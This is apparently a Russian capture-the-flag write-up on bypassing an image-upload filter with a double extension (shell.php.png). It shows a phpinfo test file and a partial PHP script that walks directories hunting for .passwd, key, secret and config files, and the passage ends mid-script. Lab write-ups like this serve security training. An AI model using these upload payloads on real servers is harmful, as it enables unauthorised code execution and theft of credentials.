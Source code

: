 # File upload - Double extensions  
## Галерея v0.02 
Ваша цель - взломать эту фотогалерею, загрузив PHP-код.  
Получите пароль проверки в файле .passwd в корне приложения.  

Мы попадаем на сайт, в котором есть несколько разделов. В глаза бросается раздел "Upload"  
<img width="1919" height="988" alt="image" src="https://github.com/user-attachments/assets/0b2ec078-5ddc-4868-90e4-b6aef7017dc0" />  
Попробуем загрузить туда обычную картинку  
<img width="1919" height="1000" alt="image" src="https://github.com/user-attachments/assets/b59e1ff3-a395-4acd-a4ed-c5e4f3e0948b" />  
Нам дают ссылку, где хранится наша картинка. Попробуем загрузить туда php скрипт, но получаем предупреждение **Wrong file extension !**. Сервер пишет: **NB : only .gif, .jpeg and .png are accepted**  
Можно отправить на сервер файл shell.php.png с двойным расширением  
shell.php.png  
```php
<?php
phpinfo();
?>
```
отправляем на сервер и получаем:  
<img width="1919" height="995" alt="image" src="https://github.com/user-attachments/assets/f86da319-2fa6-452c-9faa-6734df7a9ecc" />  
Сервер обработал наш запрос и вывел конфигурацию php  
Сервер читает файл shell.php.png как PHP-код благодаря классической уязвимости, связанной с двойным расширением (Double Extension), которая возникает из-за специфической конфигурации веб-сервера, чаще всего Apache.
Написал скрипт, чтобы вытащить .passwd из корневой директории  
**shell.php.png**
```php
<?php
echo "<pre>";
// Директория для сканирования (одна директория назад)
$dir = '../../..'; 
$target_filename = '.passwd';
$target_filepath = "$dir/$target_filename";

// Сканируем родительскую директорию
$files = @scandir($dir);

if ($files === false) {
    die("Не удалось прочитать директорию '$dir'. Проверьте права доступа.");
}

echo "
======================================
      СПИСОК ФАЙЛОВ И ПАПОК В '$dir'
======================================\n";

// Перебираем полученный массив
foreach ($files as $item) {
    // Исключаем стандартные ссылки ('.' и '..')
    if ($item != '.' && $item != '..') {
        
        // Формируем полный путь для проверки типа элемента
        $path = "$dir/$item";
        
        if (is_dir($path)) {
            echo "[DIR]  $item\n";
        } else {
            // Выделяем потенциально важные файлы
            if (preg_match('/(\.flag|\.key|\.secret|\.conf|\.passwd|config\.php|\.htaccess)/i', $item)) {
```